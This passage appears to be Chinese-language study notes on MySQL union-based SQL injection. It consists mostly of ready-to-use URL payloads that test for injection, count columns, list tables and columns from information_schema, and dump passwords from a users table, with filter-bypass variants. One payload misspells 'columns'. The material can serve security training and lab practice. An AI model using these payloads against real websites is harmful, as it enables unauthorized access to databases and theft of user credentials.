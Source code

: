 ```

16、TRIGGERS表：提供了关于触发程序的信息。必须有super权限才能查看该表
```







## 注入流程

1.判断是否存在注入

```
?id=1' and '1'='1
```

2.判断列数

```
?id=1' order by 4--+
# 5的时候不显示，4的时候显示正常就是4列
```

3.数据库名

```
?id=0' union select 1,2,3,database()--+
```

4.根据数据库查数据表名

```
?id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

5.根据表名查列名

```
?id=0' union select 1,2,3,group_concat(column_name) from information_schema.clumns where table_name='前面查出来的表名' and table_schema=database() --+
```

6.数据

```
?id=0' union select 1,2,3,group_concat(password) from users --+
```





## 联合注入

```bash
?id=1' order by 4--+

?id=0' union select 1,2,3,database()--+

?id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database() --+

?id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name="users" --+
#group_concat(column_name) 可替换为 unhex(Hex(cast(column_name+as+char)))column_name


?id=0' union select 1,2,3,group_concat(password) from users --+
#group_concat 可替换为 concat_ws(',',id,users,password )


?id=0' union select 1,2,3,password from users limit 0,1--+
```